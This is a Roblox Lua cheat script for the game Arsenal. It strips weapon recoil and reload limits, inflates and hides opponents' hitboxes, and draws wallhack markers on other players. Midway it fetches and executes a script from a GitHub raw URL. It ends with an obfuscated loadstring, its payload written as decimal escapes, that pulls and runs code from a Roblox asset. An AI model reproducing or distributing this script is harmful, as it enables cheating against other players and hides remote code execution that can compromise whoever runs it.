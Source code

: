 -- This is version v1.2
-- This script can be laggy depends ur cpu
local vu = game:GetService("VirtualUser")
game:GetService("Players").LocalPlayer.Idled:connect(function()
    vu:Button2Down(Vector2.new(0,0),workspace.CurrentCamera.CFrame)
    wait(1)
    vu:Button2Up(Vector2.new(0,0),workspace.CurrentCamera.CFrame)
end)
 
game.StarterGui:SetCore("SendNotification", {
    Title = "Arsenal Script";
    Text = "#Bốp Bi 🤓"; 
    Duration = 60;
})
wait(1)
game.StarterGui:SetCore("SendNotification", {
    Title = "Enjoy!";
   Text = "Donate me 1 🚀"; 
    Duration = 60;
})




local replicationstorage = game.ReplicatedStorage

for i, v in pairs(replicationstorage.Weapons:GetDescendants()) do
   if v.Name == "Auto" then
       v.Value = true
   end
   if v.Name == "RecoilControl" then
       v.Value = 0
   end
   if v.Name == "MaxSpread" then
       v.Value = 0
   end
   if v.Name == "ReloadTime" then
      v.Value = 0
   end
   if v.Name == "FireRate" then
       v.Value = 0.07
   end
   if v.Name == "Crit" then
       v.Value = 20
   end
end
function getplrsname() for i,v in pairs(game:GetChildren()) do if v.ClassName == "Players" then return v.Name end end end local players = getplrsname() local plr = game[players].LocalPlayer coroutine.resume(coroutine.create(function() while wait(1) do coroutine.resume(coroutine.create(function() for _,v in pairs(game[players]:GetPlayers()) do if v.Name ~= plr.Name and v.Character then v.Character.RightUpperLeg.CanCollide = false v.Character.RightUpperLeg.Transparency = 10 v.Character.RightUpperLeg.Size = Vector3.new(21,21,21) v.Character.LeftUpperLeg.CanCollide = false v.Character.LeftUpperLeg.Transparency = 10 v.Character.LeftUpperLeg.Size = Vector3.new(21,21,21) v.Character.HeadHB.CanCollide = false v.Character.HeadHB.Transparency = 10 v.Character.HeadHB.Size = Vector3.new(21,21,21) v.Character.HumanoidRootPart.CanCollide = false v.Character.HumanoidRootPart.Transparency = 10 v.Character.HumanoidRootPart.Size = Vector3.new(21,21,21) end end end)) end end)) loadstring(game:HttpGet(('https://raw.githubusercontent.com/Cesare0328/my-scripts/main/arsenal%20updated%20invis.lua'),true))()
GUI_MAIN                           = Instance.new('ScreenGui', game.CoreGui)
GUI_TARGET                         = Instance.new('TextLabel', GUI_MAIN)
GUI_AIM_AT                         = Instance.new('TextLabel', GUI_MAIN)

GUI_MAIN.Name                      = ''

GUI_TARGET.Size                    = UDim2.new(0,200,0,30)
GUI_TARGET.BackgroundTransparency  = 0.5
GUI_TARGET.BackgroundColor         = BrickColor.new('Fossil')
GUI_TARGET.BorderSizePixel         = 0
GUI_TARGET.Position                = UDim2.new(0.5,-100,0,0)
GUI_TARGET.Text                    = ' '
GUI_TARGET.TextColor3              = Color3.new(1,1,1)
GUI_TARGET.TextStrokeTransparency  = 1
GUI_TARGET.TextWrapped             = true
GUI_TARGET.FontSize                = 'Size24'
GUI_TARGET.Font                    = 'SourceSansBold'

GUI_AIM_AT.Size                    = UDim2.new(0,200,0,20)
GUI_AIM_AT.BackgroundTransparency  = 0.5
GUI_AIM_AT.BackgroundColor         = BrickColor.new('Fossil')
GUI_AIM_AT.BorderSizePixel         = 0
GUI_AIM_AT.Position                = UDim2.new(0.5,-100,0,30)
GUI_AIM_AT.Text                    = ''
GUI_AIM_AT.TextColor3              = Color3.new(1,1,1)
GUI_AIM_AT.TextStrokeTransparency  = 1
GUI_AIM_AT.TextWrapped             = true
GUI_AIM_AT.FontSize                = 'Size18'
GUI_AIM_AT.Font                    = 'SourceSansBold'


--Made by Andrheyplayz_officalyt
local gui = Instance.new("BillboardGui");
gui.Name = "";
gui.AlwaysOnTop = true;
gui.LightInfluence = 0;
gui.Size = UDim2.new(1.75, 0, 1.75, 0);
local frame = Instance.new("Frame", gui);
frame.BackgroundColor3 = Color3.fromRGB(170, 0, 0);
frame.Size = UDim2.new(1, 0, 1, 0);
frame.BorderSizePixel = 4;
frame.BorderColor3 = Color3.fromRGB(0, 0, 0);
local gi = gui:Clone();
local body = frame:Clone();
body.Parent = gi;
body.BackgroundColor3 = Color3.fromRGB(0, 170, 170);

for _, v in pairs(game:GetService("Players"):GetPlayers()) do
    if v.Name ~= game:GetService("Players").LocalPlayer.Name and v.Character and v.Character:FindFirstChild("Head") then
        gui:Clone().Parent = v.Character.Head;
    end
end
local c = 1 function zigzag(X)  return math.acos(math.cos(X * math.pi)) / math.pi end game:GetService("RunService").RenderStepped:Connect(function()  if game.Workspace.Camera:FindFirstChild('Arms') then   for i,v in pairs(game.Workspace.Camera.Arms:GetDescendants()) do    if v.ClassName == 'MeshPart' then      v.Color = Color3.fromHSV(zigzag(c),1,1)     c = c + .0001    end   end  end end)
net = true -- if false = do nothing
notify = true -- set this to false if u don't want to see notiflication

loadstring("\13\10\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\71\101\116\79\98\106\101\99\116\115\40\34\114\98\120\97\115\115\101\116\105\100\58\47\47\55\50\53\55\55\54\49\55\56\53\34\41\91\49\93\46\83\111\117\114\99\101\41\40\41\13\10")()
